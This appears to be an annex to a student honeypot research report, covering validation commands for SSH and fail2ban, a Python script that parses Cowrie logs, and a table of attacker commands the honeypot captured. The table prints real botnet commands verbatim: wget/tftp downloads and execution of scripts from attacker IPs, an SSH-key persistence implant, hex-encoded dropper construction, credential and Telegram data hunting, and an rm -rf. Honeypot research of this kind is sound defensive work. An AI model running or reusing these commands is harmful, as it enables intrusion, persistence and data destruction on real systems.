\newpage

\newpage 


\section{Annex: LLM Usage in this Project}  
\label{annex:llm}  
\
\

Large Language Models (LLMs) were strategically employed during the realization of this project, mainly as \emph{collaborative augmentation tools} rather than content generators. The following guidelines must be respected in order to keep control over a LLM work.
\subsection*{Methodological Approach}

--- \textbf{Verification-Centric Deployment}: LLMs output is heavily dependent on its user's own comprehension, AI will not do more than instructed to, it will not \texttt{consciously} ask user a question, it will not compel you to do anything, but it is a decent corrector and will definitely be able to give suggestions that go in the right direction. All model outputs undergo cross-validation against credible and up-to-date sources such as; official documentation (Linux man pages, git repository documentation, Cloud guides), academic literature (Spitzner's foundational honeypot frameworks, cybersecurity courses), security best practices and standards. Not one technical implementation (e.g.: IAM policies, iptables rules, or authentication logic) were deployed before thorough validation and edge-case mitigation.

--- \textbf{Controlled Application}: LLMs interactions were constrained to: debugging assistance for Python scripting and \textit{systemd}-based Linux administration, technical documentation refinement (post-human draft), architectural brainstorming (especially in understanding distinct cloud providers lingo for equivalent functionalities). \texttt{Original research material or system designs solely generated by LLMs are absolutely forbidden}, and so is plagiarism}. 

In conclusion, results of this research are strictly human-produced or consequences of attack patterns that were witnessed within our honeypot network.

\subsection*{Operational Safeguards}
The implementation incorporated safeguards to preserve academic integrity:

--- \textbf{Input Sanitization Protocol}: All project-specific identifiers (IP addresses, credentials, API
keys) were redacted automatically before any LLM interaction, preventing potential data leakage through model training vectors.


--- \textbf{Bias Mitigation}: From a model's output to the distinction of attackers' behavioral patterns, all information gathered during execution was triangulated with honeypot telemetry data and peer-reviewed between our group to counter potential algorithmic hallucinations. Model-derived hypotheses of attacker tactics were utilized solely as preliminary filters before our own analysis.

\



\newpage

\section{Annex: Validation for SSH Isolation \& Fail2ban Hardening} 
\label{annex:network}
\
\
\begin{lstlisting}[language=bash, label={annexes:network}, caption={Network Isolation Verification}]  
# Port 22 redirects to Cowrie (2222) and admin port (61001) is exclusive  
sudo nmap -sV -Pn -p 22,2222,610001 51.79.248.60

# Check iptables NAT rules for redirect
sudo iptables -t nat -L PREROUTING -v -n  
\end{lstlisting}  
\


\begin{lstlisting}[language=bash, label={annexes:fail2ban}, caption={Fail2ban Efficacy Testing}]  
# Simulate brute-forcing administrative access 
for i in {1..5}; do ssh -i ~/.ssh/wrong_key.pem ubuntu@51.79.248.60 -p 61001; done  

# Check active bans  
sudo fail2ban-client status ssh-admin  
\end{lstlisting}  
\

\begin{figure}[h!]
\centering
    \includegraphics[width=0.8\linewidth]{doc/img/annex_b_listing_2.png}
\end{figure}

\begin{lstlisting}[language=bash, label={annexes:ssh-hardening}, caption={SSH Service Hardening Validation}]  
# 1. SSH configuration resists downgrade attempts
sudo sshd -T | grep -E '^ciphers|^kexalgorithms|^macs|^hostkeyalgorithms'  


# 3. Confirm password authentication is disabled 
ssh -o PubkeyAuthentication=no -o PreferredAuthentications=password ubuntu@51.79.248.60 -p 61001  
\end{lstlisting}

\begin{figure}[h!]
    \centering
    \includegraphics[width=0.8\linewidth]{doc/img/annex_b_listing_3.png}
\end{figure}
\





\newpage

\section{Annex: Cowrie Operational Validation}  
\label{annex:cowrie-validation}  
\
\
\begin{lstlisting}[language=bash,label={lst:cowrie-redirect},caption={Traffic Redirection Verification}]  
# 1. Validate iptables NAT rules  
sudo iptables -t nat -L PREROUTING -nv | grep 'tcp dpt:22 redir ports 2222'  

# Confirm no direct binding to port 22  
sudo nmap -sV -Pn -p 22,2222 51.79.248.60 | grep -E '22/tcp|2222/tcp'  
\end{lstlisting}  
\
\begin{lstlisting}[language=bash,label={lst:cowrie-access},caption={Honeypot Engagement Testing}]  
# 2. Simulate attacker connection  
ssh -o StrictHostKeyChecking=no invalid_user@51.79.248.60 -p 22  

# Inspect Honeypot interactions in real time  
sudo apt-get install ccze
sudo tail -f /home/cowrie/cowrie/var/log/cowrie/cowrie.log | ccze -A  
\end{lstlisting}  
\begin{figure}[h!]
    \centering
    \includegraphics[width=1\linewidth]{doc/img/annex_c_listing_2.png}
    \caption*{Record of two intrusions in real time}
\end{figure}

\
\newpage

\section{Annex: Credential Exploitation Patterns (RQ1)}  
\label{annex:log-credential1}  
\

\begin{figure}[h!]
    \centering
    \includegraphics[width=1\linewidth]{doc/img/annex_d_credentials1.png}
    \caption*{Line \href{https://github.com/nottoBD/netsec-honeypot/blob/master/log/cowrie.json.2025-06-11}{403}: Same toolchain suggests botnet, usage of BOM char and Go SSH implementation.}
\end{figure}


\label{annex:log-python}  
\begin{lstlisting}[language=python,label={lst:cowrie-python},caption={Post-Attack Analysis Python Script}] 
import re
import requests
import pycountry
from collections import defaultdict, Counter
import pandas as pd

log_files = ["cowrie.log.2025-06-11", "cowrie.log.2025-06-12", "cowrie.log.2025-06-13"]

login_attempts = defaultdict(set)
login_ip_list = defaultdict(list)
login_counter = Counter()
login_successes = Counter()
login_protocols = defaultdict(set)

commands_executed = []
download_attempts = []
error_responses = []

ip_country = {}
def get_country(ip):
    if not ip:
        return "Unknown"
    if ip in ip_country:
        return ip_country[ip]
    try:
        res = requests.get(f"http://ip-api.com/json/{ip}?fields=country", timeout=3)
        country = res.json().get("country", "Unknown") if res.status_code == 200 else "Unknown"
    except:
        country = "Unknown"
    if country == "The Netherlands":
        country = "Netherlands"
    ip_country[ip] = country
    return country

def get_country_code(country_name):
    try:
        return pycountry.countries.lookup(country_name).alpha_2
    except:
        return "??"

# Lecture des logs
for file in log_files:
    with open(file, "r", encoding="utf-8", errors="ignore") as f:
        lines = f.readlines()

    for line in lines:
        proto = "Telnet" if "telnet" in line.lower() else "SSH"

        login_match = re.search(r'login attempt \[(.*?)\/(.*?)\]', line)
        if login_match:
            username, password = login_match.groups()
            username = username.strip().replace("b'", "").replace("'", "")
            password = password.strip().replace("b'", "").replace("'", "")
            if username == "" and password == "":
                continue

            ip_match = re.search(r'(\d+\.\d+\.\d+\.\d+)', line)
            ip = ip_match.group(1) if ip_match else None

            login_attempts[(username, password)].add(ip)
            if ip:
                login_ip_list[(username, password)].append(ip)
            login_counter[(username, password)] += 1
            login_protocols[(username, password)].add(proto)

        # Détection des connexions réussies
        if "login success" in line.lower() or "succeeded" in line.lower():
            success_match = re.search(r'login (?:success|attempt) \[(.*?)\/(.*?)\]', line)
            if success_match:
                u, p = success_match.groups()
                u = u.strip().replace("b'", "").replace("'", "")
                p = p.strip().replace("b'", "").replace("'", "")
                login_successes[(u, p)] += 1

        if "CMD: " in line:
            cmd = re.search(r'CMD: (.+)', line)
            if cmd:
                commands_executed.append(cmd.group(1))

        if "wget" in line or "curl" in line:
            download_attempts.append(line.strip())

        if "command not found" in line.lower() or "No such file or directory" in line:
            error_responses.append(line.strip())

# Construction du tableau
rows = []
for (username, password), ip_set in login_attempts.items():
    total_occurrences = login_counter[(username, password)]
    ip_list = login_ip_list[(username, password)]
    unique_ip_count = len(ip_set)
    ip_string = ", ".join(sorted(ip_set)) if ip_set else "None"
    countries = set(get_country(ip) for ip in ip_set if ip)
    country_codes = set(get_country_code(c) for c in countries if c)
    country_str = ", ".join(sorted(country_codes)) if country_codes else "??"
    protocols = ", ".join(sorted(login_protocols[(username, password)]))
    status = "Success" if login_successes.get((username, password), 0) > 0 else "Failure"

    rows.append((username, password, total_occurrences, unique_ip_count, ip_string, country_str, protocols, status))

df_rq1 = pd.DataFrame(rows, columns=[
    "Username", "Password", "Occurrences", "Unique IPs", "IP List",
    "Country", "Protocol", "Statut Connexion"
])
df_rq1 = df_rq1.sort_values(by="Occurrences", ascending=False)

# Commandes
command_counter = Counter(commands_executed)
df_rq2 = pd.DataFrame(command_counter.items(), columns=["Command", "Occurrences"]).sort_values(by="Occurrences", ascending=False)

# Erreurs
def categorize_error(line):
    if "command not found" in line.lower():
        return "Command Not Found"
    elif "No such file or directory" in line:
        return "Missing File"
    else:
        return "Other"

df_rq3 = pd.DataFrame({
    "Error Line": error_responses,
    "Category": [categorize_error(l) for l in error_responses]
})

# Export CSV
df_rq1.to_csv("rq1_logins.csv", index=False, encoding="utf-8-sig", sep=";")
df_rq2.to_csv("rq2_commands.csv", index=False, encoding="utf-8-sig", sep=";")
df_rq3.to_csv("rq3_errors.csv", index=False, encoding="utf-8-sig", sep=";")
\end{lstlisting} 

\

\begin{figure}[h!]
    \centering
    \label{annex:log-credential2}  
    
\includegraphics[angle=90, height=0.95\textheight, keepaspectratio]{doc/img/annex_d_credentials2.png}
\end{figure}
\
\

\newpage

\section{Annex: Persistence Mechanism Analysis (RQ2)}  
\label{annex:log-persistence1}  
\

\begin{figure}[h!]
    \centering
    \includegraphics[width=1\linewidth]{doc/img/annex_e_log_persistence_satori.png}
    \caption*{Lines \href{https://github.com/nottoBD/netsec-honeypot/blob/master/log/cowrie.json.2025-06-11}{230}: Botnet attack  using the Unix tool \textit{Busybox} and the \textit{Satori} IoT malware} 
\end{figure}

\label{annex:log-persistence2}  
\begin{lstlisting}[language=bash,label={lst:log-decoy},caption={Commands Input and Occurrences}]  
uname -s -v -n -r -m;641
sh;70
shell;70
system;68
enable;68
/bin/busybox SATORI;53
"/bin/busybox cat /bin/busybox || while read i; do /bin/busybox echo ; done < /bin/busybox || /bin/busybox dd if=/bin/busybox bs=22 count=1";53
uname -s -m;13
/bin/busybox cat /proc/self/exe || cat /proc/self/exe;9
"ping; sh";9
"chmod +x clean.sh; sh clean.sh; rm -rf clean.sh; chmod +x setup.sh; sh setup.sh; rm -rf setup.sh; mkdir -p ~/.ssh; chattr -ia ~/.ssh/authorized_keys; echo ""ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCqHrvnL6l7rT/mt1AdgdY9tC1GPK216q0q/7neNVqm7AgvfJIM3ZKniGC3S5x6KOEApk+83GM4IKjCPfq007SvT07qh9AscVxegv66I5yuZTEaDAG6cPXxg3/0oXHTOTvxelgbRrMzfU5SEDAEi8+ByKMefE+pDVALgSTBYhol96hu1GthAMtPAFahqxrvaRR4nL4ijxOsmSLREoAb1lxiX7yvoYLT45/1c5dJdrJrQ60uKyieQ6FieWpO2xF6tzfdmHbiVdSmdw0BiCRwe+fuknZYQxIC1owAj2p5bc+nzVTi3mtBEk9rGpgBnJ1hcEUslEf/zevIcX8+6H7kUMRr rsa-key-20230629"" > ~/.ssh/authorized_keys; chattr +ai ~/.ssh/authorized_keys; uname -a; echo -e ""\x61\x75\x74\x68\x5F\x6F\x6B\x0A""";5
uname -s -v -n -r;5
exit;4
uname -a;4
ifconfig;4
/ip cloud print;4
locate D877F783D5D3EF8Cs;4
ls -la ~/.local/share/TelegramDesktop/tdata /home/*/.local/share/TelegramDesktop/tdata /dev/ttyGSM* /dev/ttyUSB-mod* /var/spool/sms/* /var/log/smsd.log /etc/smsd.conf* /usr/bin/qmuxd /var/qmux_connect_socket /etc/config/simman /dev/modem* /var/config/sms/*;4
ps | grep '[Mm]iner';4
ps -ef | grep '[Mm]iner';4
echo Hi | cat -n;4
cat /proc/cpuinfo;4
"ping ;sh";4
/bin/busybox cat /proc/self/exe || cat /bin/echo;3
"dd bs=52 count=1 if=.s || cat .s || while read i; do echo $i; done < .s";2
"tftp; wget; /bin/busybox BJGRG";1
"cd /dev/shm; cat .s || cp /bin/echo .s; /bin/busybox BJGRG";1
cd /home/phil/;1
"cat /proc/mounts; /bin/busybox BJGRG";1
./exploit.sh;1
"cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://176.65.148.194/selfrep.sh; chmod 777 selfrep.sh; sh selfrep.sh; tftp 176.65.148.194 -c get selfrep1.sh; chmod 777 selfrep1.sh; sh selfrep1.sh; tftp -r selfrep2.sh -g 176.65.148.194; chmod 777 selfrep2.sh; sh selfrep2.sh; ftpget -v -u anonymous -p anonymous -P 21 176.65.148.194 selfrep1.sh selfrep1.sh; sh selfrep1.sh; rm -rf selfrep.sh selfrep1.sh selfrep2.sh selfrep1.sh";1
"cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://87.121.84.163/telnet.sh; chmod 777 telnet.sh; sh telnet.sh; tftp 87.121.84.163 -c get telnet1.sh; chmod 777 telnet1.sh; sh telnet1.sh; tftp -r telnet2.sh -g 87.121.84.163; chmod 777 telnet2.sh; sh telnet2.sh; ftpget -v -u anonymous -p anonymous -P 21 87.121.84.163 telnet1.sh telnet1.sh; sh telnet1.sh; rm -rf telnet.sh telnet1.sh telnet2.sh telnet1.sh";1
"chmod +x ./.1917907033382921327/sshd;nohup ./.1917907033382921327/sshd 156.248.78.128 221.203.3.184 101.36.228.201 14.199.52.62 125.87.89.119 122.228.208.32 113.7.221.72 112.4.175.171 116.62.60.152 110.49.99.110 220.181.172.244 147.93.103.172 103.239.252.132 193.233.165.168 111.12.131.236 193.34.212.145 187.141.210.92 36.66.63.125 223.75.204.39 51.91.67.151 45.137.153.111 &";1
"cd /tmp  cd /var/run  cd /mnt  cd /root  cd /; wget http://196.251.114.8/ohshit.sh; curl -O http://196.251.114.8/ohshit.sh; chmod 777 ohshit.sh; sh ohshit.sh; tftp 196.251.114.8 -c get ohshit.sh; chmod 777 ohshit.sh; sh ohshit.sh; tftp -r ohshit2.sh -g 196.251.114.8; chmod 777 ohshit2.sh; sh ohshit2.sh; ftpget -v -u anonymous -p anonymous -P 21 196.251.114.8 ohshit1.sh ohshit1.sh; sh ohshit1.sh; rm -rf ohshit.sh ohshit.sh ohshit2.sh ohshit1.sh; rm -rf *";1
"tftp; wget; /bin/busybox RTVVD";1
/bin/busybox RTVVD;1
"cat /proc/mounts; /bin/busybox RTVVD";1
"cd /dev/shm; cat .s || cp /bin/echo .s; /bin/busybox RTVVD";1
"rm .s; exit";1
">/usr/.a && cd /usr/; rm -rf .a";1
">/mnt/.a && cd /mnt/; rm -rf .a";1
">/var/run/.a && cd /var/run/; rm -rf .a";1
">/dev/shm/.a && cd /dev/shm/; rm -rf .a";1
">/etc/.a && cd /etc/; rm -rf .a";1
">/var/.a && cd /var/; rm -rf .a";1
">/var/home/user/fw/.a && cd /var/home/user/fw/; rm -rf .a";1
"for i in `cat /proc/mounts|grep tmpfs|grep -v noexec|cut -d ' ' -f 2`; do >$i/.a && cd $i;done";1
cat /proc/mounts | grep tmpfs | grep -v noexec | cut -d   -f 2;1
"/bin/busybox wget --help; /bin/busybox ftpget --help; /bin/busybox echo -e '\x67\x61\x79\x66\x67\x74';";1
"rm -rf .d; rm -rf .b; >.d; (chmod 777 .d || /bin/busybox chmod 777 .d || cp /bin/sh .d; >.d); >.b; (chmod 777 .b || /bin/busybox chmod 777 .b || cp /bin/sh .b; >.b)";1
"chmod 777 .d || /bin/busybox chmod 777 .d || cp /bin/sh .d ; > .d";1
"chmod 777 .b || /bin/busybox chmod 777 .b || cp /bin/sh .b ; > .b";1
/bin/busybox echo -en '\x53\x3d\x39\x34\x2E\x32\x36\x2E\x39\x30\x2E\x32\x31\x37\x3b\x20\x28\x77\x67\x65\x74\x20\x68\x74\x74\x70\x3a\x2f\x2f\x24\x53\x2f'>.d && /bin/busybox echo -e '\x46\x49\x4e';1
/bin/busybox echo -en '\x70\x20\x2d\x4f\x2d\x7c\x7c\x63\x75\x72\x6c\x20\x68\x74\x74\x70\x3a\x2f\x2f\x24\x53\x2f\x70\x7c\x7c\x66\x74\x70\x67\x65\x74\x20'>>.d && /bin/busybox echo -e '\x46\x49\x4e';1
/bin/busybox echo -en '\x24\x53\x20\x2d\x20\x70\x7c\x7c\x62\x75\x73\x79\x62\x6f\x78\x20\x77\x67\x65\x74\x20\x68\x74\x74\x70\x3a\x2f\x2f\x24\x53\x2f\x70'>>.d && /bin/busybox echo -e '\x46\x49\x4e';1
"/bin/busybox chmod 777 .d; ./.d > .b; /bin/busybox chmod 777 .b; ./.b matrix";1\end{lstlisting}  

\
\




\newpage


% END


